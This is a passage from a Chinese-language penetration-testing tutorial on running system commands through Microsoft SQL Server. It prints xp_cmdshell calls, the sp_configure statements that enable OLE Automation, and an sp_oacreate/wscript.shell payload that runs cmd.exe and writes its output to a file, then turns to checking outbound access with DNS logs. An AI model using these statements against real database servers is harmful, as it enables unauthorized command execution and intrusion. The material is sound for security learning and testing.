 ```
exec master..xp_cmdshell "whoami"
```

### 启用OLE Automation

![](media/2019-07-19-15-19-48.png)


通过启用xp_cmdshell失败，sqlmap还会尝试`sp_OACreate`，`sp_OACreate`这个方式是不带回显的，通常利用语句如下：


```
EXEC sp_configure 'show advanced options', 1;   
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'show advanced options', 0;
```

执行：

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >C:\who.txt'
```

![](media/2019-07-19-14-07-02.png)

通过调用`sp_oacreate`能够获得一个数字返回值，若全是0，则执行失败，必须有1。

## 判断网络环境

能执行命令后，为了判断能否出网，先尝试DNS Log。
